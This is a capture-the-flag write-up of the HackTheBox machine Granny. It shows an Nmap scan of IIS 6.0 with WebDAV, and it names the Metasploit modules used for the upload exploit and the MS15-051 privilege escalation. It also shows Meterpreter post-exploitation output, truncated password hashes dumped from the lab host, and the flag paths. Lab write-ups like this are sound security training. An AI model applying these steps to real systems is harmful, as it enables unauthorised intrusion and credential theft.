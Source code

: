 ```yaml
---
lang: "en"
classoption: oneside
code-block-font-size: \scriptsize
geometry: "a4paper"
geometry: "margin=2cm"
header-includes:
  - \usepackage{float}
  - \floatplacement{figure}{H}
  - \usepackage{xcolor}
  - \hypersetup{breaklinks=true,
                bookmarks=true,
                pdftitle="Granny",
                pdfauthor="svachal (@7h3rAm)",
                pdfsubject='Writeup for HackTheBox VM Granny',
                pdfkeywords="oscp htb windows",
                colorlinks=true,
                linkcolor=cyan,
                urlcolor=blue}
  - \usepackage{fvextra}
  - \DefineVerbatimEnvironment{Highlighting}{Verbatim}{breaklines,breakanywhere=true,commandchars=\\\{\}}
  - \usepackage{mathtools}
---
```


# [[HackTheBox] Granny](https://www.hackthebox.eu/home/machines/profile/14)

**Date**: 04/Nov/2019  
**Categories**: [oscp](https://github.com/7h3rAm/writeups/search?q=oscp&unscoped_q=oscp), [htb](https://github.com/7h3rAm/writeups/search?q=htb&unscoped_q=htb), [windows](https://github.com/7h3rAm/writeups/search?q=windows&unscoped_q=windows)  
**Tags**: [`exploit_iis_webdav`](https://github.com/7h3rAm/writeups#exploit_iis_webdav), [`privesc_windows_ms15_051`](https://github.com/7h3rAm/writeups#privesc_windows_ms15_051)  
**InfoCard**:  
![writeup.metadata.infocard](./infocard.png)

## Overview
This is a writeup for HackTheBox VM [`Granny`](https://www.hackthebox.eu/home/machines/profile/14). Here's an overview of the `enumeration` → `exploitation` → `privilege escalation` process:


![writeup.overview.killchain](./killchain.png)


\newpage
## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
``` {.python .numberLines}
# Nmap 7.70 scan initiated Mon Nov  4 13:35:36 2019 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /root/toolbox/writeups/htb.granny/results/10.10.10.15/scans/_quick_tcp_nmap.txt -oX /root/toolbox/writeups/htb.granny/results/10.10.10.15/scans/xml/_quick_tcp_nmap.xml 10.10.10.15
Nmap scan report for 10.10.10.15
Host is up, received user-set (0.051s latency).
Scanned at 2019-11-04 13:35:37 PST for 21s
Not shown: 999 filtered ports
Reason: 999 no-responses
PORT   STATE SERVICE REASON          VERSION
80/tcp open  http    syn-ack ttl 127 Microsoft IIS httpd 6.0
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT POST
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan:
|   WebDAV type: Unkown
|   Server Type: Microsoft-IIS/6.0
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|_  Server Date: Mon, 04 Nov 2019 21:36:04 GMT
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Nov  4 13:35:58 2019 -- 1 IP address (1 host up) scanned in 21.97 seconds

```

2\. We look for IIS 6.0 vulnerabilities and find multiple WebDAV related hits:  

![writeup.enumeration.steps.2.1](./screenshot01.png)  


### Findings
#### Open Ports
``` {.python .numberLines}
80/tcp  |  http  |  Microsoft IIS httpd 6.0
```

\newpage
## Phase #2: Exploitation
1\. We decide to use the Metasploit `windows/iis/iis_webdav_upload_asp` exploit and it successully gives us a Meterpreter shell:  

![writeup.exploitation.steps.1.1](./screenshot02.png)  

![writeup.exploitation.steps.1.2](./screenshot03.png)  


## Phase #2.5: Post Exploitation
``` {.python .numberLines}
ntauth/network@GRANNY> id
NT AUTHORITY\NETWORK SERVICE
ntauth/network@GRANNY>  
ntauth/network@GRANNY> uname
Computer        : GRANNY
OS              : Windows .NET Server (Build 3790, Service Pack 2).
Architecture    : x86
System Language : en_US
Domain          : HTB
Logged On Users : 3
Meterpreter     : x86/windows
ntauth/network@GRANNY>  
ntauth/network@GRANNY> ifconfig
Ethernet adapter Local Area Connection:
 Connection-specific DNS Suffix  . :
 IP Address. . . . . . . . . . . . : 10.10.10.15
 Subnet Mask . . . . . . . . . . . : 255.255.255.0
 Default Gateway . . . . . . . . . : 10.10.10.2
ntauth/network@GRANNY>  
ntauth/network@GRANNY> users
Administrator
Lakis
```

\newpage
## Phase #3: Privilege Escalation
1\. Since we have certain restrictions that stop us from running commands like `getuid`, we have to migrate to a different process. We find the PID for process `davcdata.exe` and migrate to it:  

![writeup.privesc.steps.1.1](./screenshot04.png)  

2\. We can now use the Metasploit `multi/recon/local_exploit_suggester` module to look for privesc options:  

![writeup.privesc.steps.2.1](./screenshot05.png)  

3\. We tried a few exploits from this list and eventually the `windows/local/ms15_051_client_copy_image` module worked and provided an elevated session:  

![writeup.privesc.steps.3.1](./screenshot06.png)  

![writeup.privesc.steps.3.2](./screenshot07.png)  

4\. We then obtain further information about the system and read the contents of both user.txt and root.txt files to comeplete the challenge:  
``` {.python .numberLines}
cat "C:\Documents and Settings\Lakis\Desktop\user.txt"
cat "C:\Documents and Settings\Administrator\Desktop\root.txt"

```

![writeup.privesc.steps.4.1](./screenshot08.png)  


\newpage

## Loot
### Hashes
``` {.python .numberLines}
Administrator:500:c74761604a24f0dfd0a9ba2c30e462cf:d6908f022af0373e9e.................
ASPNET:1007:3f71d62ec68a06a39721cb3f54f04a3b:edc0d5506804653f589................
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c...............
IUSR_GRANPA:1003:a274b4532c9ca5cdf684351fab962e86:6a981cb5e038b2d8b7.................
IWAM_GRANPA:1004:95d112c4da2348b599183ac6b1d67840:a97f39734c21b3f615.................
Lakis:1009:f927b0679b3cc0e192410d9b0b40873c:3064b6fc432033870c6................
SUPPORT_388945a0:1001:aad3b435b51404eeaad3b435b51404ee:8ed3993efb4e6476e..................
```
### Flags
``` {.python .numberLines}
C:\Documents and Settings\Lakis\Desktop\user.txt: 700c5dc163014e22................
C:\Documents and Settings\Administrator\Desktop\root.txt: aa4beed1c05844..................
```

## References
[+] <https://www.hackthebox.eu/home/machines/profile/14>  
[+] <https://marcelowoloszyn.cl/hackthebox/hack-the-box-write-up-granny/>  
[+] <https://reboare.github.io/hackthebox/htb-granny.html>  
